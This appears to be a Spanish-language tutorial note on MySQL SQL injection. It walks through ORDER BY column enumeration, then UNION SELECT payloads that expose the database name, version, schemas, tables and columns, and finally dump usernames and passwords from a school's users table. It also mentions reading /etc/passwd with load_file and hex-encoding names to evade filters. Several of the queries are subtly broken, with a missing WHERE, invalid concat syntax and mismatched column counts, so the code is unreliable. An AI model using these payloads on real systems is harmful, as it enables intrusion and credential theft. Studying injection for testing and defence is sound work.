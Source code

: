 En caso de tener una vulnerabilidad a inyecciones SQL y al inyectar algo vemos el SQL, podemos empezar a enumerar las columnas de la tabla a la cual se esta consultado.

**Inyección basada en error**
``` sql
-- - consulta original
select * from users where id = 1;
-- - inyeccion
select * from users where id = 1 order by 4;-- -;
```

En caso de no ver el error podemos hacer unas inyecciones basadas en tiempo, en base a estas podemos determinar si es valida o no (Pentesting avanzado).

Ahora volviendo al ejemplo, una vez enumerado las columnas, les podemos poder etiquetas a cada una de estar y aprovecharnos de las etiquetas para exponer informacion sensible.

``` sql
-- - numero de columnas en union select
select * from users where id = 1 union select 1,2,3,"etiqueta de prueba";-- -
-- - muestra la db en uso
select * from users where id = 1 union select 1,2,database(),"etiqueta de prueba";-- -
-- - user() : User que corre la db
-- - @@version : Version de Mysql
-- - load_file('/etc/passwd') : Incluye un archivo del sistema, solo funciona en consola, en web se tiene que aplicar una inyeccion mas avanzada

-- - Ahora como atacante nos puede interesar las demas schemas(databases)
-- - Aplicando: select schema_name from information_schema.schemata;
select * from users where id = 1 union select 1,2,schema_name,4 from information_schema.schemata;-- -

-- - Extraemos las tablas de un schema
-- - Aplicando: select table_name from information_schema.tables where table_schema = "db_name";
select * from users where id = 1 union select 1,2,schema_name,4 from information_schema.tables table_schema = "db_name";-- -

-- - Extraccion de columnas
-- - Con el limit indicamos la vizualizacion de la primer columna.
select * from users where id = 1 union select 1,column_name,2,3,4 from information_schema.columns where table_schema = "db_name" and table_name="users" limit 1,1;-- -

-- - Extraccion de datos
-- - Ya conocemos la db, tabla y las columnas asi que realizamos una sql normal
select * from users where id = 1 union select 1,concat(username,:,password),3,4 from colegio.users;-- -

```

Nota:
Podemos llamar una db_name en hexadecimal para evadir una sanitización.
